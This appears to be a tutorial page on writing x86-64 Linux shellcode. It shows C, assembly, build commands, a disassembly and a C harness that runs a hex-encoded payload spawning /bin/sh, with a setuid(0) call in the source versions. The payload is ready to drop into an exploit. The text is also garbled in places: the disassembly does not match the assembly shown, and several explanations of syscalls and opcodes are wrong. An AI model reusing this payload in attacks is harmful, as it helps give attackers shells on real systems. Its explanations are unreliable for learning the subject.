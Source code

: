 # shellcode
Shellcode is a set of instructions opcode that can be run by the program because shellcode operates directly on registers and functions, so opcode must be hex.


Since it's an attack, shellcode's main purpose is to call system functions, and there are two ways to do that under x86 in Linux.


The first is to break int 0x80 into the kernel state by calling directly to achieve the purpose of the call.


The second is by calling libc for syscall(64 bits) and sysenter(32 bits)


Syscall is currently recommended in 64-bit Linux, as opcode is a 16-bit set of instructions that can be compiled to execute code by first coming out of assembly code, and finally looking at opcode.

shell.c
```
#include <stdio.h>
int main(){
setuid(0);
execve("/bin/sh",NULL,NULL);
}
```
The corresponding assembly code is as follows

```
global _start
 
_start:
 
xor rdi,rdi
xor rax,rax
mov al,0x69
syscall
 
xor rdx, rdx
mov rbx, 0x68732f6e69622fff
shr rbx, 0x8
push rbx
mov rdi, rsp
xor rax, rax
push rax
push rdi
mov rsi, rsp
mov al, 0x3b
syscall
```
This is not a result of disassembly of shell.c

This code is not shellcode that can be executed, but we can get the opcode we need by compiling it into executable files
```
nasm -f elf64 shell.asm   
ld -o shell shell.o
objdump -d shell
```
Note: elf64 is used under 64 bits and elf32 is used under 32 bits


Using objdump results as follows:
```
shell:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080:	6a 3b                	pushq  $0x3b
  400082:	58                   	pop    %rax
  400083:	99                   	cltd   
  400084:	52                   	push   %rdx
  400085:	48 bb 2f 2f 62 69 6e 	movabs $0x68732f6e69622f2f,%rbx
  40008c:	2f 73 68 
  40008f:	53                   	push   %rbx
  400090:	54                   	push   %rsp
  400091:	5f                   	pop    %rdi
  400092:	52                   	push   %rdx
  400093:	57                   	push   %rdi
  400094:	54                   	push   %rsp
  400095:	5e                   	pop    %rsi
  400096:	0f 05                	syscall 
```
```
shellcode.c
#include <stdio.h>
#include <string.h>
char *code = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05";
int main()
{
    printf("len:%d bytes\n", strlen(code));
    (*(void(*)()) code)();
    return 0;
}
```




